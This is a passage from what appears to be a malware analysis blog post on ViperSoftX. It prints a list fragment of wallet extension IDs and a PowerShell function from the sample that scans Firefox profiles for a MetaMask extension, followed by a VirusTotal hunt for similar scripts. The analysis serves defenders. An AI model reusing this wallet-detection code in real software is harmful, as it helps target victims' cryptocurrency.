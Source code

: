 ```
    {
        "name": "Coinbase-B",
        "path": "hnfanknocfeofbddgcijnmhnfnkdnaad"
    }
]
```

The function *FindPaths* uses a unique technique to identify if the victim user has a MetaMask cryptocurrency FireFox extension installed
```
try {
    $ba = Get-ChildItem -Path "$env:appdata\Mozilla\Firefox\Profiles\*.xpi" -Recurse -Force;
    Foreach ($i in $ba) {
        if ($i.Name -match "ebextension@metamask.io.xpi") {
            try {
                [string] $ss = "metamask-F"
                $results.Add($ss)

            }
            catch {
                Write-Host "error"
            }
        }
    }
}
catch {}
```

I leveraged VirusTotal to [query](https://www.virustotal.com/gui/search/content%253A%257B24%252065%25206e%252076%25203a%252061%252070%252070%252064%252061%252074%252061%25205c%25204d%25206f%25207a%252069%25206c%25206c%252061%25205c%252046%252069%252072%252065%252066%25206f%252078%25205c%252050%252072%25206f%252066%252069%25206c%252065%252073%25205c%25202a%25202e%252078%252070%252069%257D/files) for recent file submissions referencing *"$env:appdata\Mozilla\Firefox\Profiles\*.xpi"*.
There were multiple PowerShell scripts with 0 AV detections on VirusTotal at the time.
![VT](/assets/img/ViperSoftX/VT.PNG)
